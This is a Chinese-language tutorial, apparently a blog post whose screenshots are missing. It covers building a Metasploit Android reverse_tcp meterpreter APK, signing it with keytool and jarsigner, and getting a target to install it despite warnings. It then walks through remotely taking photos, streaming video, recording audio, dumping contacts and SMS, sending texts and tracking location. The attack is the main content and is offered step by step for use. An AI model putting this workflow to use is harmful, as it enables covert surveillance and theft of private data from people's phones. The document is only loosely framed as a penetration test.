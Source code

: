  

一、查看Metasploit工具中可以在Android系统下使用的payload类型
可以看到有9种可以在Android下使用的payload

这些payload可以作为我们后面攻击的软件的生成工具
二、端口映射问题
如果我们的手机与使用的计算机处在同一局域网，但是虚拟机使用的是NAT模式。那么只有我们使用的计算机才可以访问到该虚拟机，其他设备都是无法访问该虚拟机的。那么就需要端口映射了
假设计算机的IP为（192.168.1.100）。Android手机的IP为（192.168.1.*）。虚拟机的IP为（192.168.169.130）：
第一步：打开VMware虚拟机网络编辑器

第二步：设置ANT端口的映射（设置之后，凡是发往计算机9999端口的流量都会转发到虚拟机的9999端口上，这样虚拟机就能够接收到Android的连接了）


三、远程控制Android手机演示
本案例中，Linux采用桥接模式，与Android手机连接在同一局域网中
①使用msfvenom命令生成被控端payload
第一步：下面我以“android/meterpreter/reverse_tcp”类型的payload为例，然后查看该类型需要的参数（图片显示需要IP和端口）
代码语言：javascript
复制
msfconsole #进入Metasploit软件use android/meterpreter/reverse_tcp #选择payload类型show options #查看payload所需参数

查看完参数之后，退出Metasploit
第二步：生成payload（msfvenom命令中默认没有apk这种格式的文件。此处使用R来替代-f和-o）

可以在kali中找到生成的这个文件，我的是放在/root目录下 

②为软件签名
为什么要签名：
如果使用上面ANT端口映射的话，那么创建的payload就不能够使用虚拟机的IP地址，而只能使用计算机的IP地址
并且这个apk不能直接在Android中直接运行，因为这个apk需要一个签名才可以运行。下面我们为这个apk生成一个签名。创建签名需要使用Keytool、JARsigner、zipalign这3个软件。Kali中内置了前2个，第3个需要安装
第一步：使用keytool生成一个key文件。会让你输入该key的名称、单位、地址等等信息，最终生成一个key文件
代码语言：javascript
复制
keytool -genkey -v -keystore my-release-key.Keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000


第二步：使用该key文件配合JARsigner为APK签名
代码语言：javascript
复制
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.Keystore pentest.apk alias_name

第三步：然后使用JARsigner验证签名
代码语言：javascript
复制
jarsigner -verify -verbose -certs pentest.apk

到此为止，就完成了签名过程，此apk就可以在Android中使用了
③开启主动端，等待被控端连接

第一步：使用msfconsole开启Metasploit

第二步：主动端使用handler

第三步：为handler设置参数（payload版本类型、IP地址、端口）

第四步：开启监听（等待被控端接入）

④将生成好的被控端payload安装在Android中，并打开连接到主控端

第一步：将kali中的这个.apk想办法弄到手机里安装（自己想办法），安装时可能会提示危险，不管它，继续安装即可。安装完成之后会在手机上看到一个软件，点击打开就行（不会真有软件打开，一闪而过）


第二步：在Android中打开此软件之后，Kali就会收到连接，之后就可以做相关的事情了

第三步：查看Android中可以使用的命令和功能。Android比较使用的功能有两类：
一类是Webcam（主要与摄像头和录音有关）
一类是Android

第四步：查看Android中可以使用的所有摄像头（可以看到有前置、后置两个摄像头）

⑤远程控制Android手机拍照

第一步：使用后置摄像头（编号为1）拍照（照片存放在/root/目录下）

第二步：在root目录下可以看到有一张拍摄的照片

⑥远程控制Android手机录视频

第一步：使用后置摄像头录制视频（可以看到在root目录下生成一个网页）

第二步：打开这个网页，Android会实时的录制视频，并在该网页中显示


⑦远程控制Android手机录音

直接输入record_mic命令启动Android中的录音机，并在root目录下生成一个wav录音文件


⑧查看Android手机是否已经执行root权限


⑨导出Android手机的电话本

可以看到或得目标手机中的43位联系人方式，并存在“contacts_dump_20190624072811.txt”文件中


⑩导出Android手机的短信记录

可以看到短信已经被导出，存放在“sms_dump_20190624072946.txt”文件中


⑪远程控制目标手机发送短信

向“152*****”的手机发送信息，内容为“helloworld”

⑫对目标手机进行定位，查看目标手机位置信息

查看给的网页就可以实时的查看目标手机所在位置（是一个谷歌地图，可能在国内打不开这个网页）

